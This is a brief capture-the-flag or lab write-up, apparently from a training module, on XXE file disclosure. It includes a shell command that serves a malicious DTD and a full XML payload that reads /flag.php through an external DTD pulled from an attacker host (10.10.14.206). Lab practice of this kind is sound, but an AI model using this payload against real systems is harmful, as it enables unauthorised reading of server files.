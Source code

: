# Advanced File Disclosure

#### Questions

+ 3  Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

### Dùng CDATA

```zsh
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server
```

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE email [

  <!ENTITY % begin "<![CDATA[">

  <!ENTITY % file SYSTEM "file:///flag.php">

  <!ENTITY % end "]]>">

  <!ENTITY % xxe SYSTEM "http://10.10.14.206:8000/xxe.dtd">

  %xxe;

]>
<root>
<name>firstname</name>
<tel>01234356789</tel>
<email>&joined;</email>
<message>This is a test request</message>
</root>
```

### Dùng Error

![](images/21.png)
